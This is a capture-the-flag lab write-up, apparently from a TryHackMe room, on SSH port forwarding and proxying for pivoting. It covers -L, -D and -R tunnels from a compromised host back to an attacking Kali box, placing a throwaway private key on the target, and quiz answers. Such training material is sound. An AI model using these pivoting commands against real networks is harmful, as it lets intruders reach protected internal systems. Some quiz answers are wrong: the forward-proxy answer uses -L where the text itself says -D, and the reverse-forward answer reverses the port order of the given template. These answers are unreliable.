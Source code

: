 The first tool we'll be looking at is none other than the bog-standard SSH client with an OpenSSH server. Using these simple tools, it's possible to create both forward and reverse connections to make SSH "tunnels", allowing us to forward ports, and/or create proxies.

---

**Forward Connections**

Creating a forward (or "local") SSH tunnel can be done from our attacking box when we have SSH access to the target. As such, this technique is much more commonly used against Unix hosts. Linux servers, in particular, commonly have SSH active and open. That said, Microsoft (relatively) recently brought out their own implementation of the OpenSSH server, native to Windows, so this technique may begin to get more popular in this regard if the feature were to gain more traction.

There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

- Port forwarding is accomplished with the `-L` switch, which creates a link to a **L**ocal port. For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:  
    `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`  
    We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 _on our own_ _attacking machine._ For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a tunnel between port 80 on the target server, and port 8000 on our own box. Note that it's good practice to use a high port, out of the way, for the local connection. This means that the low ports are still open for their correct use (e.g. if we wanted to start our own webserver to serve an exploit to a target), and also means that we do not need to use `sudo` to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.  
      
    
- Proxies are made using the `-D` switch, for example: `-D 1337`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:  
    `ssh -D 1337 user@172.16.0.5 -fN`  
    This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.  
    

  

---

**Reverse Connections**  

Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine _from_ the target -- be it by using credentials, or preferably a key based system. Before we can make a reverse connection safely, there are a few steps we need to take:

1. First, generate a new set of SSH keys and store them somewhere safe (`ssh-keygen`):  
    ![ssh-keygen process](https://assets.tryhackme.com/additional/wreath-network/62b2e09ba985.png)  
      
    This will create two new files: a private key, and a public key.  
      
    
2. Copy the contents of the public key (the file ending with `.pub`), then edit the `~/.ssh/authorized_keys` file on your own attacking machine. You may need to create the `~/.ssh` directory and `authorized_keys` file first.
3. On a new line, type the following line, then paste in the public key:  
    `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`  
    This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

The final entry in the `authorized_keys` file should look something like this:

![The syntax shown above, in place within the file](https://assets.tryhackme.com/additional/wreath-network/055753470a05.png)  

Next. check if the SSH server on your attacking machine is running:  
`sudo systemctl status ssh`

If the service is running then you should get a response that looks like this (with "active" shown in the message):  
![systemctl output when checking SSH is active. You should see active (running) in the output](https://assets.tryhackme.com/additional/wreath-network/08746aa1021e.png)  

If the status command indicates that the server is not running then you can start the ssh service with:  
`sudo systemctl start ssh`

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:  
`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN   `

To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:  
`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN   `

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

_**Note:** Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from. In many ways this makes the next task covering plink.exe redundant; however, it is still very relevant for older systems._  

---

To close any of these connections, type `ps aux | grep ssh` into the terminal of the machine that created the connection:

![Highlighting the process id of the ssh proxy/port forward](https://assets.tryhackme.com/additional/wreath-network/daf8fd5c8540.png)

Find the process ID (PID) of the connection. In the above image this is 105238.

Finally, type `sudo kill PID` to close the connection:

![Killing the connection, demonstrating that the connection is now terminated](https://assets.tryhackme.com/additional/wreath-network/dc4393e7991e.png)  

---

Answer the questions below

1. If you're connecting to an SSH server _from_ your attacking machine to create a port forward, would this be a local (L) port forward or a remote (R) port forward?  

**`Local`**

2. Which switch combination can be used to background an SSH port forward or tunnel?  

**`-fN`**

3. It's a good idea to enter our own password on the remote machine to set up a reverse proxy, Aye or Nay?  

**`Nay`**

4. What command would you use to create a pair of throwaway SSH keys for a reverse connection?  

**`ssh-keygen`**

5. If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called `id_rsa` and backgrounding the shell, what command would you use? (Assume your username is "kali")  

```php
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

**`ssh -R 22:172.16.0.100:2222 kali@172.16.0.200 -i id_rsa -fN`**

6. What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?  

```php
ssh -L user@target.thm -fN
```

**`ssh -L 8000 user@target.thm -fN`**

7. If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.

```php
ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN
```

**`ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN`**

---

**Completed:** 2024-07-19

